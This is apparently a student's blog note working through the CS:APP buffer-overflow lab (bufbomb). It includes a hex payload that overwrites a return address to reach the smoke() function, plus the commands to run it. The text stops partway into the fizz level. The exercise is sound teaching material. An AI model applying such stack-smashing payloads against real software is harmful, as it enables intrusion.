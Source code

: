 ```yaml
---
title: csapp_buflab
date: 2021-04-28 17:56:27
tags:
---
```


my  fourth week challange!

i have some eggs hurt today i wanna try to use eg to write my note

(maybe is will be funny?)



## level0:smoke

```
void __noreturn smoke()
{
  puts("Smoke!: You called smoke()");
  validate(0);
  exit(0);
}
```

just we can see on these codes,we need use function of getbuf to overflow turn to smoke()

now let me put on my exp(according to getbuf() we can know Variable distance EBP is 44,the smoke() location is 0x08048c18)

exp0:

```
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 18 8c 04 08        
```

use these commands to run (i am lovely please give me money,this world can be replaced)

```
./hex2raw < Level0.txt > Level0-raw.txt
./bufbomb -u i am lovely please give me money < Level0-raw.txt
```



## level1:fizz

level1 has some differents frowm level0,except we should use stack overflow and we should deliver a cookie to pass it 

```
void __cdecl __noreturn fizz(int a1)
{
  if ( a1 == cookie )
  {
    __printf_chk(1, "Fizz!: You called fizz(0x%x)\n", a1);
    validate(1);
  }
  else
  {
    __printf_chk(1, "Misfire: You called fizz(0x%x)\n", a1);
  }
  exit(0);
```